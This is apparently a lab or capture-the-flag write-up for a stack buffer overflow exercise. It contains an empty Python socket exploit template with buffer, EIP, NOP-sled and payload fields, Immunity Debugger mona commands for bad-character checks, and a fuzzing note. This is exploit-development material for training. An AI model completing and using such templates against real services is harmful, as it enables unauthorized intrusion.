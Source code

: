 ### Exploit
```
#!/usr/bin/python3

import socket

# socket values
ip = ""
port = 1

# sendbuff values
cmd = ""
offset = ""
overflow = ""
eip_val = ""
nops = ""
payload = ""
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```

## Target machine
A text file with the following content to quickly copy/paste commands to make the process quicker.
```
!mona bytearray -b "\x00"
!mona comapre -f "C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin" -a
```
## OVERFLOW1
Fuzzing OVERFLOW1:

![fuzz](assets/markdown-img-paste-20210904052311351.png)

Somewhere around 2000.
